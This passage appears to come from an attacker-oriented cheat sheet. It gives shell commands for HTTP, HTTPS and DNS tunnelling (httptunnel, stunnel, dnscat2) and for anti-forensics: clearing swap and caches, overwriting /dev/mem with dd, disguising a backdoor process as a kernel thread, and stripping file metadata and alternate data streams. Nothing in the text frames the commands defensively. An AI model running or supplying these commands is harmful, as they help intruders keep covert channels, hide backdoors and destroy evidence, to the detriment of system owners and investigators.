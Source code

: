 #### HTTP Tunneling
```bash
# HTTP tunnel with httptunnel
httptunnel -s 80 target_host:22

# HTTPS tunnel with stunnel
stunnel -d 443 -r target_host:22
```

#### DNS Tunneling
```bash
# DNS tunnel with dnscat2
dnscat2-server example.com
dnscat2 example.com
```

## Anti-Forensics Techniques

### Memory Artifacts

#### Volatile Data Clearing
```bash
# Clear swap files
swapoff -a
swapon -a

# Clear memory caches
echo 3 > /proc/sys/vm/drop_caches

# Zero out memory
dd if=/dev/zero of=/dev/mem bs=1M count=available_memory
```

#### Process Hiding
```bash
# Hide process from ps
exec -a "[kworker/0:1]" /path/to/backdoor

# Use process name spoofing
cp backdoor /tmp/[ksoftirqd/0]
/tmp/[ksoftirqd/0]
```

### File System Artifacts

#### Metadata Cleanup
```bash
# Remove extended attributes
setfattr -x user.attribute file

# Clear file metadata
exiftool -all= image.jpg

# Remove NTFS alternate data streams
streams -d file.txt
```
